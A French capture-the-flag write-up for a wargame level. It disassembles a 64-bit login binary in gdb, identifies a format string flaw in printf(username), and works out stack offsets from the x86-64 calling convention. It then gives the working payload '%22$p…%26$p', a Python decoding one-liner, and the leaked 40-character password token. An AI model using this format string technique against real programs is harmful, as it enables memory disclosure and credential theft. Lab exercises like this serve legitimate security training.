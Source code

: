 # Analyse

## Binaire

`./level02`
```
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
`test`
```
--[ Password:
```
`test`
```
*****************************************
test does not have access!
```
## Gdb

`info function`
```asm
[...]
  0x0000000000400814  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x0000000000400814 <+0>:	push   rbp
   0x0000000000400815 <+1>:	mov    rbp,rsp
   0x0000000000400818 <+4>:	sub    rsp,0x120                      ; 120 octets pout la stack
   0x000000000040081f <+11>:	mov    DWORD PTR [rbp-0x114],edi      ; argc
   0x0000000000400825 <+17>:	mov    QWORD PTR [rbp-0x120],rsi      ; argv
   0x000000000040082c <+24>:	lea    rdx,[rbp-0x70]                 ; buffer_a  @ rbp - 0x70
   0x0000000000400830 <+28>:	mov    eax,0x0
   0x0000000000400835 <+33>:	mov    ecx,0xc
   0x000000000040083a <+38>:	mov    rdi,rdx
   0x000000000040083d <+41>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_a, 0, 12);
   0x0000000000400840 <+44>:	mov    rdx,rdi
   0x0000000000400843 <+47>:	mov    DWORD PTR [rdx],eax
   0x0000000000400845 <+49>:	add    rdx,0x4
   0x0000000000400849 <+53>:	lea    rdx,[rbp-0xa0]                 ; buffer_b  @ rbp - 0xa0
   0x0000000000400850 <+60>:	mov    eax,0x0
   0x0000000000400855 <+65>:	mov    ecx,0x5
   0x000000000040085a <+70>:	mov    rdi,rdx
   0x000000000040085d <+73>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_b, 0, 5);
   0x0000000000400860 <+76>:	mov    rdx,rdi
   0x0000000000400863 <+79>:	mov    BYTE PTR [rdx],al
   0x0000000000400865 <+81>:	add    rdx,0x1
   0x0000000000400869 <+85>:	lea    rdx,[rbp-0x110]                ; buffer_c  @ rbp - 0x110
   0x0000000000400870 <+92>:	mov    eax,0x0
   0x0000000000400875 <+97>:	mov    ecx,0xc
   0x000000000040087a <+102>:	mov    rdi,rdx
   0x000000000040087d <+105>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_c, 0, 12);
   0x0000000000400880 <+108>:	mov    rdx,rdi
   0x0000000000400883 <+111>:	mov    DWORD PTR [rdx],eax
   0x0000000000400885 <+113>:	add    rdx,0x4
   0x0000000000400889 <+117>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000400891 <+125>:	mov    DWORD PTR [rbp-0xc],0x0
   0x0000000000400898 <+132>:	mov    edx,0x400bb0
   0x000000000040089d <+137>:	mov    eax,0x400bb2
   0x00000000004008a2 <+142>:	mov    rsi,rdx
   0x00000000004008a5 <+145>:	mov    rdi,rax
   0x00000000004008a8 <+148>:	call   0x400700 <fopen@plt>           ; fd = fopen("/home/users/level03/.pass", "r");
   0x00000000004008ad <+153>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004008b1 <+157>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004008b6 <+162>:	jne    0x4008e6 <main+210>            ; if fd != 0:  jump à <+210>
   0x00000000004008b8 <+164>:	mov    rax,QWORD PTR [rip+0x200991]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x00000000004008bf <+171>:	mov    rdx,rax
   0x00000000004008c2 <+174>:	mov    eax,0x400bd0
   0x00000000004008c7 <+179>:	mov    rcx,rdx
   0x00000000004008ca <+182>:	mov    edx,0x24
   0x00000000004008cf <+187>:	mov    esi,0x1
   0x00000000004008d4 <+192>:	mov    rdi,rax
   0x00000000004008d7 <+195>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
   0x00000000004008dc <+200>:	mov    edi,0x1
   0x00000000004008e1 <+205>:	call   0x400710 <exit@plt>            ; exit(1);
   0x00000000004008e6 <+210>:	lea    rax,[rbp-0xa0]
   0x00000000004008ed <+217>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004008f1 <+221>:	mov    rcx,rdx
   0x00000000004008f4 <+224>:	mov    edx,0x29
   0x00000000004008f9 <+229>:	mov    esi,0x1
   0x00000000004008fe <+234>:	mov    rdi,rax
   0x0000000000400901 <+237>:	call   0x400690 <fread@plt>           ; b_size = fread(buffer_b, 1, 41, fd);
   0x0000000000400906 <+242>:	mov    DWORD PTR [rbp-0xc],eax
   0x0000000000400909 <+245>:	lea    rax,[rbp-0xa0]
   0x0000000000400910 <+252>:	mov    esi,0x400bf5
   0x0000000000400915 <+257>:	mov    rdi,rax
   0x0000000000400918 <+260>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_b, "\n);
   0x000000000040091d <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0  ; buffer_b[index] = 0;
   0x0000000000400925 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
   0x0000000000400929 <+277>:	je     0x40097d <main+361>            ; if b_size == 41:  jump à <+361>
   0x000000000040092b <+279>:	mov    rax,QWORD PTR [rip+0x20091e]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x0000000000400932 <+286>:	mov    rdx,rax
   0x0000000000400935 <+289>:	mov    eax,0x400bf8
   0x000000000040093a <+294>:	mov    rcx,rdx
   0x000000000040093d <+297>:	mov    edx,0x24
   0x0000000000400942 <+302>:	mov    esi,0x1
   0x0000000000400947 <+307>:	mov    rdi,rax
   0x000000000040094a <+310>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
   0x000000000040094f <+315>:	mov    rax,QWORD PTR [rip+0x2008fa]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x0000000000400956 <+322>:	mov    rdx,rax
   0x0000000000400959 <+325>:	mov    eax,0x400bf8
   0x000000000040095e <+330>:	mov    rcx,rdx
   0x0000000000400961 <+333>:	mov    edx,0x24
   0x0000000000400966 <+338>:	mov    esi,0x1
   0x000000000040096b <+343>:	mov    rdi,rax
   0x000000000040096e <+346>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
   0x0000000000400973 <+351>:	mov    edi,0x1
   0x0000000000400978 <+356>:	call   0x400710 <exit@plt>            ; exit(1);
   0x000000000040097d <+361>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400981 <+365>:	mov    rdi,rax
   0x0000000000400984 <+368>:	call   0x4006a0 <fclose@plt>          ; fclose(fd);
   0x0000000000400989 <+373>:	mov    edi,0x400c20
   0x000000000040098e <+378>:	call   0x400680 <puts@plt>            ; puts("===== [ Secure Access System v1.0 ] =====");
   0x0000000000400993 <+383>:	mov    edi,0x400c50
   0x0000000000400998 <+388>:	call   0x400680 <puts@plt>            ; puts("/***************************************\\");
   0x000000000040099d <+393>:	mov    edi,0x400c80
   0x00000000004009a2 <+398>:	call   0x400680 <puts@plt>            ; puts("| You must login to access this system. |");
   0x00000000004009a7 <+403>:	mov    edi,0x400cb0
   0x00000000004009ac <+408>:	call   0x400680 <puts@plt>            ; puts("\\**************************************/");
   0x00000000004009b1 <+413>:	mov    eax,0x400cd9
   0x00000000004009b6 <+418>:	mov    rdi,rax
   0x00000000004009b9 <+421>:	mov    eax,0x0
   0x00000000004009be <+426>:	call   0x4006c0 <printf@plt>          ; printf("--[ Username: ");
   0x00000000004009c3 <+431>:	mov    rax,QWORD PTR [rip+0x20087e]        # 0x601248 <stdin@@GLIBC_2.2.5>
   0x00000000004009ca <+438>:	mov    rdx,rax
   0x00000000004009cd <+441>:	lea    rax,[rbp-0x70]
   0x00000000004009d1 <+445>:	mov    esi,0x64
   0x00000000004009d6 <+450>:	mov    rdi,rax
   0x00000000004009d9 <+453>:	call   0x4006f0 <fgets@plt>           ; fgets(buffer_a, 100, stdin);
   0x00000000004009de <+458>:	lea    rax,[rbp-0x70]
   0x00000000004009e2 <+462>:	mov    esi,0x400bf5
   0x00000000004009e7 <+467>:	mov    rdi,rax
   0x00000000004009ea <+470>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_a, "\n");
   0x00000000004009ef <+475>:	mov    BYTE PTR [rbp+rax*1-0x70],0x0  ; buffer_a[index] = 0;
   0x00000000004009f4 <+480>:	mov    eax,0x400ce8
   0x00000000004009f9 <+485>:	mov    rdi,rax
   0x00000000004009fc <+488>:	mov    eax,0x0
   0x0000000000400a01 <+493>:	call   0x4006c0 <printf@plt>          ; printf("--[ Password: ");
   0x0000000000400a06 <+498>:	mov    rax,QWORD PTR [rip+0x20083b]        # 0x601248 <stdin@@GLIBC_2.2.5>
   0x0000000000400a0d <+505>:	mov    rdx,rax
   0x0000000000400a10 <+508>:	lea    rax,[rbp-0x110]
   0x0000000000400a17 <+515>:	mov    esi,0x64
   0x0000000000400a1c <+520>:	mov    rdi,rax
   0x0000000000400a1f <+523>:	call   0x4006f0 <fgets@plt>           ; fgets(buffer_c, 100, stdin);
   0x0000000000400a24 <+528>:	lea    rax,[rbp-0x110]
   0x0000000000400a2b <+535>:	mov    esi,0x400bf5
   0x0000000000400a30 <+540>:	mov    rdi,rax
   0x0000000000400a33 <+543>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_c, "\n");
   0x0000000000400a38 <+548>:	mov    BYTE PTR [rbp+rax*1-0x110],0x0 ; buffer_c[index] = 0;
   0x0000000000400a40 <+556>:	mov    edi,0x400cf8
   0x0000000000400a45 <+561>:	call   0x400680 <puts@plt>            ; puts("*****************************************");
   0x0000000000400a4a <+566>:	lea    rcx,[rbp-0x110]
   0x0000000000400a51 <+573>:	lea    rax,[rbp-0xa0]
   0x0000000000400a58 <+580>:	mov    edx,0x29
   0x0000000000400a5d <+585>:	mov    rsi,rcx
   0x0000000000400a60 <+588>:	mov    rdi,rax
   0x0000000000400a63 <+591>:	call   0x400670 <strncmp@plt>
   0x0000000000400a68 <+596>:	test   eax,eax
   0x0000000000400a6a <+598>:	jne    0x400a96 <main+642>            ; if strncmp(buffer_b, buffer_c, 41) != 0:  jump <+642>
   0x0000000000400a6c <+600>:	mov    eax,0x400d22
   0x0000000000400a71 <+605>:	lea    rdx,[rbp-0x70]
   0x0000000000400a75 <+609>:	mov    rsi,rdx
   0x0000000000400a78 <+612>:	mov    rdi,rax
   0x0000000000400a7b <+615>:	mov    eax,0x0
   0x0000000000400a80 <+620>:	call   0x4006c0 <printf@plt>          ; printf("Greetings, %s!\n", buffer_a);
   0x0000000000400a85 <+625>:	mov    edi,0x400d32
   0x0000000000400a8a <+630>:	call   0x4006b0 <system@plt>          ; system("/bin/sh");
   0x0000000000400a8f <+635>:	mov    eax,0x0
   0x0000000000400a94 <+640>:	leave
   0x0000000000400a95 <+641>:	ret                                   ; return(0);
   0x0000000000400a96 <+642>:	lea    rax,[rbp-0x70]                 ; jump from <+598>
   0x0000000000400a9a <+646>:	mov    rdi,rax
   0x0000000000400a9d <+649>:	mov    eax,0x0
   0x0000000000400aa2 <+654>:	call   0x4006c0 <printf@plt>          ; printf(buffer_a);
   0x0000000000400aa7 <+659>:	mov    edi,0x400d3a
   0x0000000000400aac <+664>:	call   0x400680 <puts@plt>            ; puts(" does not have access!");
   0x0000000000400ab1 <+669>:	mov    edi,0x1
   0x0000000000400ab6 <+674>:	call   0x400710 <exit@plt>            ; exit(1);
End of assembler dump.
```
C'est un binaire 64bits, donc la 'calling convention' est différente d'un binaire 32 bits: on passe les arguments par les registres et non par la stack. (cf. "A.2.1 Calling Conventions", p.123 de la [documentation](https://refspecs.linuxfoundation.org/elf/x86_64-abi-0.99.pdf)).
# Exploit

Le programme attend en input un nom d'utilisateur et un mot de passe, compare le mot de passe avec le contenu du fichier .pass et nous ouvre un shell s'ils sont égaux. Dommage, en passant par gdb on n'a pas les droits pour ouvrir le fichier .pass donc on n'atteint pas la condition.

Par contre, printf à <+654> est vulnérable à un [format string exploit](https://axcheron.github.io/exploit-101-format-strings/) puisqu'il prend uniquement en paramètre le username que nous contrôlons, de cette manière on devrait pouvoir afficher le contenu du fichier .pass qui se trouve sur la stack.

Puisque c'est un binaire 64bits, printf va lire les arguments tous les 8 octets et nous savons que le token fait 40 caractères (41 - le '').
Nous allons donc devoir afficher 40 / 8 = 5 paramètres consécutifs pour obtenir notre token complet, reste à savoir à partir de combien de paramètres !

- La stack fait 0x120 = 288 octets
- Le buffer qui nous intéresse se situe à rbp - 0xa0 (160) = rsp + 128
- On devrait tomber sur la zone de la stack qui nous intéresse au 16ème argument (128 / 8)
- Cependant, selon la documentation mentionnée plus haut
  > User-level applications use as integer registers for passing the sequence %rdi, %rsi, %rdx, %rcx, %r8 and %r9
  - printf va donc d'abord chercher ses arguments parmi ces registres avant d'aller les chercher sur la stack !

Notre token devrait être affiché par printf à partir du 22ème argument (128 / 8 + les 6 registres).

`./level02`
```
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p%23$p%24$p%25$p%26$p
--[ Password:
*****************************************
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d does not have access!
```

Pour finalement décoder notre pass, il faut décoder chaque adresse en ascii et la reverse à cause du boutisme (endianness, [oui oui on dit boutisme en français](https://fr.wikipedia.org/wiki/Boutisme) 😂).

`python`
- `str = "0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d"`
- `''.join([addr.decode('hex')[::-1] for addr in str.split("0x")])`
  ```
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  ```
